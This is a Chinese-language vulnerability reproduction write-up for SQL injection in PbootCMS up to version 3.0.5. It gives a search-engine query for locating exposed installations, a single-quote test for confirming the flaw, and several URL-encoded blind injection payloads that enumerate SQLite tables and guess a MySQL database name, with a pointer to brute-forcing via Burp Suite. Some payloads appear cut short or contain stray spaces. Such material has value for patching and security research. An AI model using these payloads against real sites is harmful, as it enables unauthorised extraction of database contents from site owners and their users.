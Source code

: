 # PbootCMS domain SQL注入漏洞

# PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS <= 3.0.5
```

## 网络测绘

```
app="PBOOTCMS"
```

## 漏洞复现

本地搭建最新版本,访问首页

![image-20220518155003298](/images/202205181550559.png)

我们需要访问一个存在的页面

url中13后加个单引号 `'`，若为执行sql报错相关,则漏洞存在

![image-20220518155017186](/images/202205181550238.png)

若显示下图，则漏洞无法利用

![image-20220518155030427](/images/202205181550475.png)

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![image-20220518155108672](/images/202205181551731.png)

通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错

![image-20220518155128134](/images/202205181551193.png)

由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a
```

![image-20220518155148056](/images/202205181551121.png)

猜解第一个表名称,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimi
```

![image-20220518155205342](/images/202205181552408.png)

这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同

